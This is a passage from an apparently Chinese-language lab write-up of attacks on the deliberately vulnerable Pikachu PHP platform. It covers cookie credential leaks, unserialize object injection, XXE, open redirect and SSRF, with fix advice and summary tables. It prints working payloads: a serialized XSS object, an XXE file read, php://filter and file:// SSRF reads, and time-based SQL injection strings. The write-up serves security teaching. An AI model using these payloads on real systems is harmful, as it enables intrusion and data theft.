

### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `leak01-cookie` | `GET findabc.php?username=vince&password=123456` | abc[uname]=vince; abc[pw]=e10adc3949ba59abbe56e057f20f883e; PHPSESSID=2ql4nods0lph38eq5m7n7bnm3e |

**leak01-cookie** — 敏感信息泄露：cookie 里明文放用户名 + 密码 MD5



### 修复建议

- 凭据绝不写进 cookie：用 `$_SESSION` 保存登录态，cookie 里只放不可猜的 session id。
- 口令存储用 `password_hash($p, PASSWORD_ARGON2ID)` + `password_verify()`；MD5/SHA1 无盐哈希一律淘汰。
- Cookie 加 `HttpOnly; Secure; SameSite=Lax`；数据库中只存哈希，日志中禁止打印任何凭据。
- `display_errors=Off`、`expose_php=Off`、自定义错误页；配置文件放在 web 根之外，权限 640。

## 12. PHP 反序列化 PHP Unserialize {#m12}

`风险：高危`　`CWE-502 不可信数据反序列化`

`unserialize($_POST['o'])` 是典型的对象注入入口。Pikachu 的示例类 `S` 在 `__construct()` 里 echo `$test`，所以构造一个 `O:1:"S":1:{s:4:"test";s:N:"<script>...";}` 就能触发 XSS；真实项目里更常见的是借 `__destruct()`/`__wakeup()` 触发文件写入、命令执行，形成 POP 链。本例的关键细节是序列化字符串里的长度字段必须精确，写死长度会导致 unserialize 失败。

### 源码缺陷

- vul/unserilization/unser.php:18-23 —— `class S{ var $test="pikachu"; function __construct(){ echo $this->test; } }`，魔术方法直接输出可控属性。
- vul/unserilization/unser.php:26 —— 源码自带提示 payload：`O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}`。
- vul/unserilization/unser.php:30-33 —— `if(!@$unser = unserialize($s)){...} else { $html.="<p>{$unser->test}</p>"; }`



### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `unser01-xss` | `O:1:"S":1:{s:4:"test";s:31:"<script>alert('unser')</script>";}` | 弹窗:['unser'] |

**unser01-xss** — PHP 反序列化：unserialize 可控 -> 魔术方法/对象注入



### 修复建议

- 不做反序列化：跨边界一律用 `json_decode()`，需要类型就用 DTO 显式赋值。
- 确实需要时：`unserialize($s, ['allowed_classes'=>['SafeClass']])` 限定白名单；PHP 7+ 也可用 `allowed_classes=>false` 只反序列化数组。
- 对序列化数据做 HMAC 签名（`hash_hmac('sha256',$data,$key)`），校验不通过直接丢弃。
- 审计代码里所有 `unserialize`/`__wakeup`/`__destruct`，grep 关键词 `unserialize(`、`session_decode`、`phar://`。

## 13. XML 外部实体注入 XXE {#m13}

`风险：高危`　`CWE-611 XML 外部实体`

`simplexml_load_string($xml,'SimpleXMLElement',LIBXML_NOENT)` —— `LIBXML_NOENT` 会展开实体，于是 `<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">` 就能把服务器文件读进响应。源码 43 行的注释说明写这个页面的人知道 libxml>=2.9 默认安全，才特意把 NOENT 打开。

### 源码缺陷

- vul/xxe/xxe_1.php:43 —— 注释：因 libxml >= 2.9 默认禁止外部实体，所以特别开启 `LIBXML_NOENT`。
- vul/xxe/xxe_1.php:49 —— `$data = @simplexml_load_string($xml,'SimpleXMLElement',LIBXML_NOENT);` 随后 `<pre>{$data}</pre>` 直接输出。



### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `xxe01-file` | `<?xml version="1.0"?><!DOCTYPE ANY [<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">]><foo>&xxe;</foo>` | Pikachu 漏洞练习平台 pika~pika~ 欢迎 骚年 系统介绍 暴力破解 Cross-Site Scripting CSRF SQL-Inject RCE File Inclusion Unsafe Filedownload Unsafe Fileupload Over Permiss |

**xxe01-file** — XXE：外部实体读服务器文件(LIBXML_NOENT)


### 修复建议

- 去掉 `LIBXML_NOENT`；解析时加 `LIBXML_NONET`，并用 `libxml_disable_entity_loader(true)`（PHP 8 已默认关闭外部实体）。
- 对收到的 XML 做 XSD 校验后再解析；`DOCTYPE` 一律拒绝：`if (stripos($xml,'<!DOCTYPE')!==false) die('bad xml');`。
- 优先改用 JSON 接口；必须 XML 时限制实体大小与嵌套深度，防 Billion Laughs。

## 14. URL 重定向 URL Redirect {#m14}

`风险：中危`　`CWE-601 开放重定向`

`header("location:{$url}")` —— 用户给什么就跳什么。单独看危害不高，但它是钓鱼链里最有效的一环：攻击者用「可信域名/valid URL」骗点击，跳到仿冒登录页，或者在 OAuth 流程里把 code 偷走。

### 源码缺陷

- vul/urlredirect/urlredirect.php:18-24 —— `$url=$_GET['url']; ... header("location:{$url}");`


### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `redir01-open` | `url=http://127.0.0.1:8081/landing.html` | 落地 URL:http://127.0.0.1:8081/landing.html |

**redir01-open** — URL 重定向：header(location:$url) 可跳任意站


### 修复建议

- 跳转目标用白名单：`if(!in_array($url, $allowed, true)) $url='/home';`
- 只允许站内相对路径：`preg_match('/^\/[A-Za-z0-9_\-\/]*$/', $url)`；禁止 `//evil.com`、`http://`、`\\evil.com` 等变形。
- 需要外跳时先跳到「即将离开本站」提示页，或通过服务端签名的中间跳转（token 防篡改）。

## 15. 服务端请求伪造 SSRF {#m15}

`风险：高危`　`CWE-918 服务端请求伪造`

两个入口：`curl_init($URL)` 与 `file_get_contents($filename)`，都对协议和地址零校验。curl 版本可以用 `file://` 直接读本机文件；file_get_contents 版本可以用 `php://filter` 把源码 base64 出来。真实内网里，同样的能力可以打 169.254.169.254 拿云凭证、探测内网端口、访问 Redis/MySQL。

### 源码缺陷

- vul/ssrf/ssrf_curl.php:27-39 —— `$URL=$_GET['url']; $CH=curl_init($URL); curl_setopt(...CURLOPT_SSL_VERIFYPEER,FALSE); echo curl_exec($CH);` 未限制协议。
- vul/ssrf/ssrf_fgc.php:25-26 —— `$filename=$_GET['file']; $str=file_get_contents($filename); echo $str;`


### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `ssrf01-curl-file` | `url=file:///C:/Windows/win.ini` | Pikachu 漏洞练习平台 pika~pika~ 欢迎 骚年 系统介绍 暴力破解 Cross-Site Scripting CSRF SQL-Inject RCE File Inclusion Unsafe Filedownload Unsafe File |
| `ssrf02-fgc-filter` | `file=php://filter/read=convert.base64-encode/resource=ssrf.php` | Pikachu 漏洞练习平台 pika~pika~ 欢迎 骚年 系统介绍 暴力破解 Cross-Site Scripting CSRF SQL-Inject RCE File Inclusion Unsafe Filed |

**ssrf01-curl-file** — SSRF(curl)：file:// 协议读本机文件


**ssrf02-fgc-filter** — SSRF(file_get_contents)：php://filter 读源码


### 修复建议

- 协议白名单只留 http/https，禁掉 file/gopher/dict/ftp/php 等；`curl_setopt(CURLOPT_PROTOCOLS, CURLPROTO_HTTP|CURLPROTO_HTTPS)`。
- 解析域名后校验 IP：拒绝 127.0.0.0/8、10/8、172.16/12、192.168/16、169.254/16（云元数据）、::1/fc00::/7，并在连接时二次校验（防 DNS rebinding）。
- 关闭 `CURLOPT_FOLLOWLOCATION`，或每一次跳转都重新做地址校验；出网走统一代理并做域名白名单。
- `allow_url_fopen=Off`，业务确实需要抓取时用带校验的专用客户端；对返回内容限制大小与类型。

## 16. 结果总表 {#summary}

| # | 模块 | 用例 | 通过 | 未通过 |
|---|---|---|---|---|
| 1 | 暴力破解 Burteforce | 4 | 4 | 0 |
| 2 | 跨站脚本 XSS | 9 | 9 | 0 |
| 3 | 跨站请求伪造 CSRF | 3 | 3 | 0 |
| 4 | SQL 注入 SQL-Inject | 11 | 11 | 0 |
| 5 | 远程代码/命令执行 RCE | 2 | 2 | 0 |
| 6 | 文件包含 File Inclusion | 2 | 2 | 0 |
| 7 | 任意文件下载 Unsafe Download | 2 | 2 | 0 |
| 8 | 不安全文件上传 Unsafe Upload | 3 | 3 | 0 |
| 9 | 越权访问 Over Permission | 2 | 2 | 0 |
| 10 | 目录遍历 Directory Traversal | 1 | 1 | 0 |
| 11 | 敏感信息泄露 Sensitive Info Disclosure | 1 | 1 | 0 |
| 12 | PHP 反序列化 PHP Unserialize | 1 | 1 | 0 |
| 13 | XML 外部实体注入 XXE | 1 | 1 | 0 |
| 14 | URL 重定向 URL Redirect | 1 | 1 | 0 |
| 15 | 服务端请求伪造 SSRF | 2 | 2 | 0 |
| | **合计** | **45** | **45** | **0** |

## 17. 修复优先级 {#fix}

| 优先级 | 模块 | 一句话 |
|---|---|---|
| P0 立刻修 | RCE / SQL 注入 / 文件上传 / SSRF / XXE / 反序列化 | 直接 getshell 或读全库：参数化查询 + 去 eval + 上传三重校验 + 协议与地址白名单 + 关实体 |
| P1 本迭代修 | 文件包含 / 任意下载 / 越权 / XSS | 白名单映射 + realpath 校验 + 对象级授权 + 上下文输出编码 |
| P2 排期修 | 暴力破解 / CSRF / 开放重定向 / 信息泄露 / 目录遍历 | 失败锁定 + token 严格校验 + 跳转白名单 + 凭据不落 cookie + basename |

## 18. 踩坑清单 {#pitfalls}

| 现象 | 根因 | 解决 |
|---|---|---|
| 上传报「找不到临时文件夹」 | php.ini 未设置 upload_tmp_dir | 见上表，改 ini + 重启 Apache |
| insert 注入报 1292 Truncated incorrect DOUBLE value | MySQL STRICT_TRANS_TABLES + 字符串参与 and/or | payload 用数字串：`0' or sleep(3) or '0` |
| insert 注入报 1064 near '' | 用 `-- ` 注释或 `#` 把语句自身的右括号注释掉 | payload 自己补 `)`，如 `...'x')#` |
| Playwright `page.fill` 对 hidden input 超时 | fill 要求元素可见 | 隐藏域用 JS 赋值 `el.value=...` |
| `form.submit is not a function` | 表单里有 `name=submit` 的 input，遮蔽了 submit 方法 | 用 `HTMLFormElement.prototype.submit.call(f)` |
| prototype.submit 提交后后端 `isset($_POST['submit'])` 为假 | 程序化提交不带 submitter | 提交前 append 一个 `<input type=hidden name=submit>` |
| click 后立刻读页面读到旧 DOM | wait_for_load_state 抢跑 | 用 `with page.expect_navigation(): page.click(...)` |
| goto 20s 超时 | 系统代理拦截 localhost | chromium 加 `--no-proxy-server --proxy-bypass-list=*` |
| token_get.php 找不到 token 输入框 | hidden token 只在 token_get_edit.php:92 | 从编辑页读 token；且注意首次 null==null 可绕过 |
| csrf_post 登录填表失败 | 该页 `<form method=get>`，登录走 GET 参数 | 直接 GET `?username=..&password=..&submit=Login` |
| op1 用 test/abc123 登录失败 | op1_login.php:32 查的是 member 表 | 改用 vince/123456 |
| 图片马直接访问不执行 | 后缀被强制 .jpg，Apache 不当 PHP 解析 | 配合 fi_local.php 包含执行 |

## 19. 附录 {#appendix}

### harness 与产物

| 文件 | 说明 |
|---|---|
| `scripts/poc_browser.py` | 45 个用例的浏览器驱动脚本；`py poc_browser.py bf xss sqli inj misc csrf op upload` |
| `scripts/make_source_shots.py` | 把关键源码渲染成带行号/高亮的截图（evidence/srcshots/*.png） |
| `scripts/_verify_markers.py` | 用 requests 独立复核 marker（不依赖页面文本） |
| `scripts/make_blog.py` | 生成 blog.md 与自包含 blog.html（截图内联 base64） |
| `evidence/poc-browser.json` | 45 条结果：id/group/ok/title/payload/detail/shot |
| `evidence/shots/*.png` | 52 张复现截图（含子场景） |
| `evidence/srcshots/*.png` | 15 张源码截图 |

### 复现命令

```bash
cd scripts
py poc_browser.py bf xss sqli inj misc csrf op upload   # 全量 45 用例
py make_source_shots.py                                 # 重新生成源码截图
py _verify_markers.py                                   # marker 独立复核
py make_blog.py                                         # 重新生成本文
```
